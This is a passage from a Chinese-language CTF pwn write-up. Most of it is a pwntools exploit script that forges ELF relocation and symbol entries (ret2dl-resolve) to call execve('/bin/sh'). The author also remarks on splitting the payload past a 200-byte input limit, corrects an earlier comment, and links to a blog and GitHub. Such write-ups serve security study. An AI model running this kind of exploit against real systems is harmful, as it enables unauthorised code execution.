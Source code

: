 ```
payload+="A"*(0x804a85a-buf-len(payload))
payload+=p32(plt0)
payload+=p32(reloc_arg)
payload+="A"*4
payload+=p32(bin_sh)#set argc #之前的wp里面写错了
payload+=p32(0)+p32(0)
payload+=fake_rel

st_name=0x804a88c-dynstr
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(0x12)

payload+="B"*align
payload+=fake_sym
payload+="execvex00"
payload+="A"*80
payload+="/bin/shx00"
payload+="A"*20

p.sendline(payload)
p.interactive()
```

但是远程服务器还是不行，据说是服务器控制只能一次输入200字节，导致我们这个超长的payload没有用武之地。如果要服务器上实现，只需要将payload分开，每次再payload结尾调用read再次读取数据到栈中。



## 0x03 纠错:

之前投稿到安全客的文章，写时候没多想，第四行的注释写错了。

Base_stage+80实际上是/bin/sh的位置，做传参之用。

[![](https://s2.ax1x.com/2019/09/30/uYXqaT.png)](https://s2.ax1x.com/2019/09/30/uYXqaT.png)

Ret2dl的原理在上一篇文章里做了浅显的解析。

文章投稿到了安全客，可以[点击此处](https://www.anquanke.com/post/id/177450)查看。



## 资源下载

这次的pwn题案例放在github上了

个人整理的pwn题 [下载地址](https://github.com/migraine-sudo/PWN-)

更多的pwn题分析可以访问我的个人博客 [https://migraine-sudo.github.io/](https://migraine-sudo.github.io/)
